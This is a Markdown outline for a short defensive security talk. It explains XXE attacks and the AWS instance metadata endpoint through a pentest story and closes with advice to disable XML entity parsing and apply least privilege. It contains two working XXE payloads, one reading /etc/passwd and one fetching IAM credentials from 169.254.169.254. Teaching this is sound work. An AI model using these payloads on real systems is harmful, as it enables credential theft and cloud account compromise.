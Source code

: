 # XXE and AWS Compromise

## Outcomes
* People know about XXE
	* And hopefully disable XML entity parsing everywhere
* People know about AWS Metadata endpoint
	* Because it's kinda neat

## Intro
* Ask for show of hands, who knows about
	* XML Entities
	* AWS Metadata endpoint

## Background
* There's an EC2 instance parsing XML
* It is getting pentested

## XML Entities
slide is the example payload below
* Quickly explain XML Entities
* _Pentester notices XML files getting parsed_
	* Tries to steal `/etc/passwd` with XXE
	* Pentest finding: ![medium](./assets/vuln1.png)

**Example payload:**
```xml
 <?xml version="1.0" encoding="ISO-8859-1"?>
 <!DOCTYPE foo [  
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "file:///etc/passwd" >
 ]>
 
 <foo>&xxe;</foo>
```

## AWS Metadata
slide is a recording of `curl 169.254 ...` in an EC2 box
* Quickly explain AWS Metadata endpoint
* Add in the fact that XXE can do HTTP requests
* _Pentester notices server is running in EC2_
	* Uses XXE to get iam role --> `iam/info` 
	* Uses XXE to get creds --> `iam/security-credentials/<role-name>`
	* Pentest finding: ![high](./assets/vuln2.png)

**Example payload:**
```xml
 <?xml version="1.0" encoding="ISO-8859-1"?>
 <!DOCTYPE foo [  
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/iam-role" >
 ]>
 
 <foo>&xxe;</foo>
```

## AWS Account Compromise
* Pentester is able to do lots of things with the AWS creds
	* Uses the temporary creds to steal all the data
	* Pentest finding: ![critical](./assets/vuln3.png)

<!-- TODO record AWS metadata demo -->

## Summary
* If you're parsing XML ![stop it](https://media.giphy.com/media/l4Ki2obCyAQS5WhFe/giphy.gif)
* Also limit access from your EC2 instances
	* Principle of least privilege

## Notes
* Most of the content is from this [Netflix blog post](https://medium.com/netflix-techblog/netflix-information-security-preventing-credential-compromise-in-aws-41b112c15179)